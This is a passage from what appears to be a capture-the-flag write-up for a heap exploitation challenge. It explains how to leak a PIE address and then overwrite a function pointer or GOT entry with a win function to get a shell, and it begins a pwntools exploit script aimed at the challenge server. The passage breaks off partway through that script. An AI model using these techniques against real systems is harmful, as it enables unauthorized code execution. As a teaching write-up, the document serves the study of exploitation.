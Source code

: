 ```  
display()

target.interactive()  
```  
At this point, I have two options for my approach. I could attempt a partial
overwrite of the print function pointer with the win function; however, the
low two bytes of the functions differ, and only the low three nibbles of win
will be known between executions, so I will have to guess one nibble for 1/16
odds of success. This is not bad, and if I did not have an alternative idea, I
would have implemented this.

However, I realized that in addition to an arbitrary write, I should be able
to get an arbitrary read. I can simply use the string to char to string method
to input a string of length zero to the heap offset that contains the
display_string address, then use the display option to read that unedited
address. I use this to get a PIE leak and find the win function's address, and
from there, I can write the win function to the print pointer, overwriting the
display_string address.

# Writing the Exploit

One final note of housekeeping is that if you want to overwrite the print
address, you do need to create a second string to char to string object and
use that to overwrite the display_string address of the first object. This is
becausse the display_string address is written to the print pointer after I
write in the contents of my string, so if I try to overwrite the print pointer
of the object I am currently editing, my efforts will be overwritten and
nothing will happen. I have since realized that since there is only partial
RELRO, I should also be able to just overwrite a GOT function like puts with
my win function and also get a shell now that I have a PIE leak.

Here is my finished script:  
```  
from pwn import *

#target = process('./chall_patched', env={"LD_PRELOAD":"./libc-2.28.so"})

#pid = gdb.attach(target, "b *display+32\nb *create_variable+314\n set
disassembly-flavor intel\ncontinue")

target = remote('host.cg21.metaproblems.com', 3150)

elf = ELF('chall')

def create_string(length, content):

	print(target.recvuntil(b'5. Exit'))  
	target.sendline(b'1')  
	print(target.recvuntil(b'What type would you like?'))  
	target.sendline(b'1')  
	print(target.recvuntil(b'like your string to be'))  
	target.sendline(str(length))  
	print(target.recvuntil(b'data'))  
	target.sendline(content)

def edit_char(index, character):  
	print(target.recvuntil(b'5. Exit'))  
	target.sendline(b'3')  
	print(target.recvuntil(b'What index would you like to modify'))  
	target.sendline(str(index))  
	print(target.recvuntil(b'What type would you like?'))  
	target.sendline(b'4')  
	print(target.recvuntil(b'What is your value:'))  
```